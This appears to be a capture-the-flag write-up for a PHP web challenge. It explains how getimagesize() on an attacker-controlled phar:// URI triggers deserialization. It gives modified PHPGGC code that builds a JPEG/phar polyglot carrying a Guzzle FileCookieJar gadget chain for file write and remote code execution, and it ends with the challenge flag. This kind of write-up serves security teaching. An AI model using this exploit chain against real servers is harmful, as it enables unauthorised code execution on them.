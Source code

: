 # Web 05
The challenge has source code (luckily).

We can trigger deserialization because of following vulnerable code:
```
        try {
            if ($imageInfo['Height'] && $imageInfo['Width']) {
                $height = $imageInfo['Height'];
                $width = $imageInfo['Width'];
            } else {
                list($width, $height) = getimagesize($image);
            }
            
```
`getimagesize()` accepts attacker controllable URI. If we pass `phar://` scheme it would trigger phar deserialization.

One more thing we need to care of is our phar archive must be a valid image (or at least look like it). There's a known solution for this problem.

The server uses `http guzzle` that again, fortunately for us, has needed gadget achieve RCE on the server.
The `php-ggc` framework contains a generator code that is changed so that it would generate phar/image polyglot.

The modified code is shown below:
```
<?php

namespace GadgetChain\Guzzle;

class FW1 extends \PHPGGC\GadgetChain\FileWrite
{
    public static $version = '6.0.0 <= 6.3.3+';
    public static $vector = '__destruct';
    public static $author = 'cf';

    public function generate(array $parameters)
    {
        $path = $parameters['remote_path'];
        $data = $parameters['data'];
        $a =  new \GuzzleHttp\Cookie\FileCookieJar($path, $data);
        //unlink('pwn.phar');
        $p = new \Phar('pwn.phar', 0); 
        $p['file.txt'] = 'test';
        $p->setMetadata($a);
        $p->setStub("\xff\xd8\xff\xe0\x0a<?php __HALT_COMPILER(); ?>");
    }
}

```

We upload this "image" to server and record the path.
Then we generate html page that would point to it.
```
<html>
<head></head>
pwn image here
<img src=phar:///app/upload/af55k6peln8ni9270eut7i8uqr/73f2a4aa40cf38e647d802bc.jpg>
<body></body>
</html>
```
Then we fetch image from our server and get RCE.

## Flag
`WhiteHat{ph4r_d3_w1th_4_t1ny_b4ck_do0r_7fc88491}`
